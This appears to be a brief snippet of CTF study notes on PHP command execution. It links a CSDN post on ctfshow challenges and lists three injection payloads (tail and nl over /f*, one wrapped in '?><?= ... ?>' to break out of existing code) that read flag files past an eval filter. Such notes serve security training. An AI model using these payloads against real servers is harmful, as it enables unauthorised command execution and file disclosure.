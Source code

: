 命令执行

[2021/10/27--2021/10/29CTF命令执行ctfshow_blackhole.img ctf-CSDN博客](https://blog.csdn.net/qq_46241655/article/details/120998777?ops_request_misc=&request_id=&biz_id=102&utm_term=ctf 命令执行 eval ;过滤&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-120998777.142^v99^pc_search_result_base1&spm=1018.2226.3001.4187)

```
tail /f*

`nl /f*`

?><?= `tail /f*`?>  //?>闭合前边的。
```

